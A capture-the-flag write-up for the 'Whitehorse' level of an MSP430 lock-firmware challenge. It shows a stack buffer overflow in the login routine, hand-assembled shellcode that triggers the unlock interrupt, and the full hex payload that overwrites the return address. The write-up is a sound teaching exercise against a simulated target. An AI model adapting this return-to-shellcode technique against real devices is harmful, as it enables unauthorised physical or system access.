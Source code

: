 # 07: Whitehorse

- _Points:_ 50 points
- _Version number_: c.01

## Password

```
30127f00b01232454141414141414141ae36
```

## Manual

```
Lockitall                                            LOCKIT PRO r c.01
______________________________________________________________________

              User Manual: Lockitall LockIT Pro, rev c.01
______________________________________________________________________


OVERVIEW

    - This lock is attached the the LockIT Pro HSM-2.
    - We have updated  the lock firmware to connect with this hardware
      security module.


DETAILS

    The LockIT Pro c.01  is the first of a new series  of locks. It is
    controlled by a  MSP430 microcontroller, and is  the most advanced
    MCU-controlled lock available on the  market. The MSP430 is a very
    low-power device which allows the LockIT  Pro to run in almost any
    environment.

    The  LockIT  Pro   contains  a  Bluetooth  chip   allowing  it  to
    communiciate with the  LockIT Pro App, allowing the  LockIT Pro to
    be inaccessable from the exterior of the building.

    There  is no  default  password  on the  LockIT  Pro HSM-2.   Upon
    receiving the  LockIT Pro,  a new  password must  be set  by first
    connecting the LockitPRO HSM to  output port two, connecting it to
    the LockIT Pro App, and entering a new password when prompted, and
    then restarting the LockIT Pro using the red button on the back.

    LockIT Pro Hardware  Security Module 2 stores  the login password,
    ensuring users  can not access  the password through  other means.
    The LockIT Pro  can send the LockIT Pro HSM-2  a password, and the
    HSM will  directly send the  correct unlock message to  the LockIT
    Pro Deadbolt  if the password  is correct, otherwise no  action is
    taken.

    This is Hardware  Version C.  It contains  the Bluetooth connector
    built in, and two available  ports: the LockIT Pro Deadbolt should
    be  connected to  port  1,  and the  LockIT  Pro  HSM-2 should  be
    connected to port 2.

    This is  Software Revision  01. The firmware  has been  updated to
    connect with the new hardware security module. We have removed the
    function to unlock the door from the LockIT Pro firmware.




(c) 2013 LOCKITALL                                            Page 1/1
```

## Writeup

In this version of the LockIT Pro firmware rev c.01, it claims it has been updated to remove the function to unlock the door from the firmware. This is likely in response to Level 05 (Reykjavik), where there were instructions in memory that allowed the deadbolt to be unlocked if a check was passed.

This time around, it seems that the password checking is done completely by the HSM itself, of which we are unable to inspect the program flow. However, we can still make use of the same `INT 0x7F` call to trigger a deadbolt unlock in the HSM, which allows us to bypass the password check.

To achieve this, let us look for our favourite buffer overflow vulnerability in `login`:

```
4508:  3e40 3000      mov   #0x30, r14
450c:  0f41           mov   sp, r15
450e:  b012 8645      call  #0x4586 <getsn>
```

We see that the `getsn` call accepts up to `0x30` bytes (48 bytes), whereas the buffer is only allocated 16 bytes. This allows us to write beyond the buffer at `36ae`-`36bd`. We also notice that at `36be`, it contains the return address for the `login` function to `443c`:

```
36a0:   4645 0000 9045 0200 ae36 3000 1245 4141   FE...E...60..EAA
36b0:   4141 0000 0000 0000 0000 0000 0000 3c44   AA............<D
```

We can overwrite the return address. However, there is no `unlock_door` function this time, so what we can do instead is to return to our own shellcode on the stack.

Let's use the assembler to assemble the following instructions into shellcode:

```
push #0x7f
call #0x4532
```

These instructions would first push `0x7f` on the stack, followed by calling the `INT` function. As mentioned in previous levels, this interrupt unlocks the deadbolt without checking for a password. We can assemble them into the following 8 bytes:

```
30127f00b0123245
```

Since we need to override the return address at bytes 17-18, we can return to `36ae`, the start of our buffer, and execute the above shellcode. Put together, we have the following payload:

```
30127f00b01232454141414141414141ae36
```
